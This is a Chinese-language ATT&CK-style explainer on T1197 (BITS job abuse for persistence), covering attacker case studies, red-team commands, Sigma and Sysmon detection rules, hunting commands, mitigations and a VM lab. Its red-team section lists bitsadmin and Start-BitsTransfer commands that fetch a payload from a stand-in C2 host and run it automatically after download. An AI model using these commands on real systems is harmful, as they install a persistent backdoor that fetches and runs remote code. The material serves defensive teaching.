

# T1197 - BITS作业

## 一句话通俗理解

Windows 有个"后台下载管家"叫 BITS，本来用于系统更新下载文件——攻击者发现它能定时执行任务、能开机自启、还能伪装成正常流量，简直是完美的持久化后门载体。

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 利用 Windows BITS 服务创建后台下载任务实现持久化 |
| 为什么危险？ | BITS 是系统自带服务，不会被杀软标记，且能定时触发和开机自启 |
| 谁需要关心？ | Windows 系统管理员、EDR 运维人员 |
| 你的第一步防御 | 监控 bitsadmin.exe 命令执行和 BITS 作业创建 |
| 如果只做一件事 | 部署 Sysmon EventID 1 监控 bitsadmin.exe 的命令行参数 |

## 难度等级

⭐⭐ 中级：需要了解 BITS 服务和 bitsadmin 命令行工具的基本用法，无需编程基础

## 前置知识检查

读这个文件前，你需要知道：
- **BITS 是什么？** Background Intelligent Transfer Service，Windows 后台智能传输服务，用于异步下载文件
- **BITS 作业（Job）**：一个下载任务，包含源 URL、目标路径、触发条件
- **bitsadmin.exe**：管理 BITS 作业的命令行工具
- **自动恢复机制**：BITS 作业在系统重启后可自动恢复执行——这正是攻击者利用的持久化特性

## 技术描述

### 场景引入

想象你在一家快递公司工作。公司有个"定时发货系统"，每天固定时间自动发包裹，即使前一天断电了，来电后也会继续发——这个"断电恢复"本是贴心设计。

某天小偷发现：如果他在发货系统里登记一个"特殊包裹"，包裹里装的不是商品而是开锁工具，那么每次来电后系统都会自动把开锁工具送到指定地点。杀毒软件看到的是"正常发货流程"，完全不会拦截。

这就是 BITS 持久化的原理——**用系统合法服务干攻击者的事。**

### 通俗比喻

| BITS 特性 | 比喻 | 攻击者怎么用 |
|----------|------|-------------|
| 后台下载 | "静默快递" | 不弹窗、不提示，用户无感知 |
| 断电恢复 | "来电续发" | 重启后作业自动恢复，实现持久化 |
| 限速下载 | "慢速发货避怀疑" | 慢速外传数据，流量分析难发现 |
| 可执行回调 | "收货后自动开箱" | 下载完成后自动执行 payload |
| 系统服务 | "公司官方快递" | 杀软信任系统服务，默认不拦截 |

### 进阶理解

BITS（Background Intelligent Transfer Service）是 Windows 的内置文件传输服务，运行在 `svchost.exe -k netsvcs` 进程中。它最初设计用于 Windows Update 和 SCCM 等场景，特点是：
- **异步传输**：不阻塞用户操作
- **断点续传**：网络中断后自动恢复
- **重启续作**：系统重启后未完成的作业自动恢复
- **回调执行**：作业完成后可调用指定程序

攻击者利用的正是"重启续作"和"回调执行"——创建一个 BITS 作业，指向恶意 URL，下载完成后执行 payload，即使系统重启作业也会恢复，实现持久化。

**攻击者常用命令模式：**
```cmd
bitsadmin /create backdoor
bitsadmin /addfile backdoor http://恶意URL/payload.exe C:\Windows\Temp\payload.exe
bitsadmin /SetNotifyCmdLine backdoor C:\Windows\Temp\payload.exe NUL
bitsadmin /resume backdoor
```

## 子技术列表

T1197 是父技术，无子技术。

## 攻击流程



## 真实案例

### 案例1：APT29 用 BITS 下载 Cobalt Strike Beacon
- **时间**：2017-2019 年
- **目标**：欧洲外交机构、智库
- **攻击组织**：APT29（俄罗斯 SVR 背景）
- **手法**：钓鱼邮件投放初始 payload 后，用 `bitsadmin /transfer` 从攻击者控制的服务器下载 Cobalt Strike Beacon。设置 `/SetNotifyCmdLine` 让 Beacon 下载完成后自动执行。BITS 流量伪装成 Windows Update 通信，绕过防火墙规则
- **数据来源**：FireEye/Mandiant 报告（一手厂商报告）

### 案例2：Carbanak/Fin7 用 BITS 实现持久化
- **时间**：2014-2018 年
- **目标**：全球金融机构、餐饮连锁
- **攻击组织**：FIN7（金融犯罪组织）
- **手法**：创建名为 `Microsoft_Update` 的 BITS 作业，指向攻击者 C2 服务器，下载更新版的 CARBANAK 后门。作业设置每小时重试一次，即使 C2 临时下线也能在恢复后自动更新。命名伪装成系统更新，管理员难以察觉
- **数据来源**：FireEye/Mandiant 报告 + 美国司法部起诉书（一手官方文档）

### 案例3：Qbot 银行木马用 BITS 下载模块
- **时间**：2020-2023 年
- **目标**：全球 Windows 用户（通过钓鱼邮件传播）
- **攻击组织**：Qbot 运营团伙
- **手法**：Qbot 感染系统后，用 `bitsadmin /transfer` 下载额外模块（凭证窃取、键盘记录）。BITS 作业设置在系统空闲时执行，降低用户感知。部分变种用 PowerShell 的 `Start-BitsTransfer` cmdlet 替代 bitsadmin.exe，规避对 bitsadmin.exe 的监控
- **数据来源**：Sophos / Cisco Talos 报告（一手厂商报告）

## 红队视角

### 可持续利用性分析

| 维度 | 评估 | 说明 |
|------|------|------|
| 隐蔽性 | 高 | BITS 是系统服务，杀软默认信任 |
| 持久性 | 高 | 重启后作业自动恢复 |
| 可移植性 | 低 | 仅限 Windows 平台 |
| 检测难度 | 中 | bitsadmin.exe 命令行可监控，但 PowerShell BITS cmdlet 难 |

### 红队可复制性

```cmd
:: 方法1：经典 bitsadmin 持久化
bitsadmin /create PersistentUpdater
bitsadmin /addfile PersistentUpdater http://c2.example.com/update.exe C:\Windows\Temp\update.exe
bitsadmin /SetNotifyCmdLine PersistentUpdater "C:\Windows\Temp\update.exe" NUL
bitsadmin /SetRetryDelay PersistentUpdater 60
bitsadmin /resume PersistentUpdater

:: 方法2：PowerShell BITS（规避 bitsadmin.exe 监控）
Start-BitsTransfer -Source http://c2.example.com/payload.exe -Destination C:\Windows\Temp\payload.exe

:: 方法3：利用 BITS COM 对象（无 bitsadmin.exe 无 PowerShell）
powershell -c "$b = New-Object -ComObject BITS.Manager; ..."
```

## 蓝队视角

### 用人话说检测

BITS 检测的核心是**盯住"谁在创建 BITS 作业"**。正常情况下只有 Windows Update、SCCM 等系统组件会创建 BITS 作业——任何由未知进程发起的 BITS 作业都值得怀疑。

### Sigma 规则

```yaml
title: 检测可疑 BITS 作业创建
id: 3a7c8e5f-2b1d-4c9a-8e6f-5d4b3c2a1e0f
status: stable
description: 监控 bitsadmin.exe 创建作业和设置回调命令的可疑操作
logsource:
    product: windows
    category: process_creation
detection:
    selection_bitsadmin:
        Image|endswith: '\bitsadmin.exe'
    suspicious_params:
        CommandLine|contains:
            - '/create'
            - '/addfile'
            - '/SetNotifyCmdLine'
            - '/resume'
            - '/transfer'
    filter_legitimate:
        CommandLine|contains:
            - 'Windows Update'
            - 'SCCM'
    condition: selection_bitsadmin and suspicious_params and not filter_legitimate
falsepositives:
    - 合法的软件更新程序使用 BITS
    - SCCM 客户端部署
level: medium
```

### Sysmon 配置

```xml
<RuleGroup name="BITS Monitoring" groupRelation="or">
  <ProcessCreate onmatch="include">
    <Image name="technique_id=T1197,technique_name=BITS Jobs" condition="end with">bitsadmin.exe</Image>
  </ProcessCreate>
  <ProcessCreate onmatch="include">
    <CommandLine condition="contains">Start-BitsTransfer</CommandLine>
  </ProcessCreate>
</RuleGroup>
```

### 命令行检测

```bash
# 查询所有 BITS 作业
bitsadmin /list /allusers
bitsadmin /query /allusers /verbose

# 查询作业详情
bitsadmin /getdescription <jobname>
bitsadmin /getnotifycommandline <jobname>

# PowerShell 查询
Get-BitsTransfer -AllUsers

# 检查 BITS 事件日志
wevtutil qe "Microsoft-Windows-Bits-Client/Operational" /c:50 /rd:true /f:text
```

### 关键事件日志

| 日志路径 | EventID | 含义 |
|---------|---------|------|
| Microsoft-Windows-Bits-Client/Operational | 3 | 作业创建 |
| Microsoft-Windows-Bits-Client/Operational | 59 | 作业已启动 |
| Security | 4688 | 进程创建（bitsadmin.exe） |

### 网络层检测
- BITS 默认使用 HTTP/HTTPS，流量看起来像正常 web 下载
- 关注"非 Windows Update IP 的 BITS 类流量模式"（固定 UA 字符串 `Microsoft BITS/7.8`）

## 避坑指南

| 坑 | 说明 | 正确做法 |
|----|------|---------|
| 只监控 bitsadmin.exe | 攻击者改用 PowerShell `Start-BitsTransfer` | 同时监控 PowerShell BITS cmdlet |
| 忽略 BITS COM 对象 | 高级攻击者直接调用 COM 接口 | 监控 `BITS.Manager` COM 对象创建 |
| 只看进程不看作业 | BITS 作业在服务中持久化，进程退出仍有效 | 定期查询 BITS 作业列表 |
| 误以为删除文件就清除 | BITS 作业会重新下载文件 | 必须 `bitsadmin /cancel` 删除作业 |
| 忽略作业命名伪装 | 攻击者命名为 `Microsoft_Update` | 对比已知合法 BITS 作业白名单 |

## 检测建议

### 主机层
- **Sysmon**：监控 bitsadmin.exe 进程创建和命令行参数
- **PowerShell 日志**：监控 `Start-BitsTransfer` cmdlet 调用
- **BITS 事件日志**：`Microsoft-Windows-Bits-Client/Operational`
- **EDR**：CrowdStrike/SentinelOne 的 BITS 行为监控

### 应用层
- 监控 BITS 作业的创建频率异常
- 关注 `/SetNotifyCmdLine` 参数（这是回调执行的关键）

### 网络层
- BITS UA 字符串：`Microsoft BITS/x.x`
- 关注非 Windows Update CDN IP 的 BITS 类流量

## 缓解措施

| 措施 | 实施方式 | 效果 |
|------|---------|------|
| 限制 bitsadmin.exe | AppLocker / WDAC 禁止非系统路径执行 | 阻断命令行途径 |
| BITS 作业审计 | 定期导出 BITS 作业列表对比基线 | 发现异常作业 |
| 网络层过滤 | 限制 BITS 仅访问 Windows Update CDN | 阻断 C2 通信 |
| 禁用 BITS 服务 | 非服务器环境可禁用（影响 Windows Update） | 彻底阻断（需评估影响） |
| PowerShell 约束 | 启用 Constrained Language Mode | 限制 PowerShell BITS cmdlet |

## 动手实验

### 实验1：观察 BITS 作业持久化（虚拟机中操作）

```cmd
:: 1. 创建测试文件（模拟 payload）
echo echo "BITS 触发了我" > C:\temp\test_payload.bat

:: 2. 创建 BITS 作业
bitsadmin /create TestPersistJob

:: 3. 添加文件（指向本地文件模拟）
bitsadmin /addfile TestPersistJob file:///C:/temp/source.txt C:\temp\dest.txt

:: 4. 设置回调命令
bitsadmin /SetNotifyCmdLine TestPersistJob "C:\temp\test_payload.bat" NUL

:: 5. 启动作业
bitsadmin /resume TestPersistJob

:: 6. 查看作业状态
bitsadmin /query TestPersistJob

:: 7. 清理
bitsadmin /cancel TestPersistJob
del C:\temp\test_payload.bat C:\temp\dest.txt
```

**预期输出**：BITS 作业创建后，`bitsadmin /query` 显示作业状态为 TRANSFERRING/TRANSFERRED，回调命令设置成功。

### 实验2：对比 bitsadmin 和 PowerShell BITS

```powershell
# PowerShell 创建 BITS 传输
Start-BitsTransfer -Source http://example.com/test.txt -Destination C:\temp\test.txt

# 查看作业
Get-BitsTransfer
```

**预期输出**：PowerShell BITS cmdlet 同样创建 BITS 作业，但进程是 powershell.exe 而非 bitsadmin.exe——证明仅监控 bitsadmin.exe 会漏检。

### 专用工具

| 工具 | 用途 | 特点 |
|------|------|------|
| bitsadmin.exe | Windows 内置工具 | BITS 作业命令行管理 |
| Get-BitsTransfer | PowerShell cmdlet | BITS 作业查询 |
| BitsParser | BITS 作业取证分析 | 从 BITS 数据库恢复作业历史 |
| BITS Audit Script | 自定义审计脚本 | 导出所有 BITS 作业配置 |

## 术语解释

| 术语 | 通俗解释 |
|------|---------|
| BITS | Background Intelligent Transfer Service，Windows 后台智能传输服务 |
| BITS 作业 | 一个 BITS 下载任务，含源/目标/回调 |
| bitsadmin.exe | 管理 BITS 作业的命令行工具 |
| 回调命令 | BITS 作业完成后自动执行的程序 |
| 断点续传 | 网络中断后从断点继续传输 |
| 重启续作 | 系统重启后未完成作业自动恢复 |

## 参考资料

### 深入了解
- 📚 [MITRE ATT&CK T1197](https://attack.mitre.org/techniques/T1197/) —— 官方技术页面
- 📚 [Microsoft BITS 文档](https://learn.microsoft.com/windows/win32/bits/background-intelligent-transfer-service-portal) —— BITS 官方文档

### 动手试试
- 🔧 [bitsadmin 命令参考](https://learn.microsoft.com/windows-server/administration/windows-commands/bitsadmin) —— 命令行用法
- 🔧 [Sysmon BITS 监控配置](https://github.com/SwiftOnSecurity/sysmon-config) —— 开源 Sysmon 配置

### 真实攻击
- 🎯 FireEye APT29 报告 —— BITS 下载 Cobalt Strike
- 🎯 Mandiant FIN7 报告 —— BITS 伪装系统更新
- 🎯 Sophos Qbot 报告 —— BITS 模块下载

## 版本历史

| 版本 | 日期 | 变更 |
|------|------|------|
| v3.1 | 2026-07-10 | 重写为持久化战术正确内容，修复跨战术污染 |
| v3.0 | 2026-06-15 | 初版 v3.0 风格 |
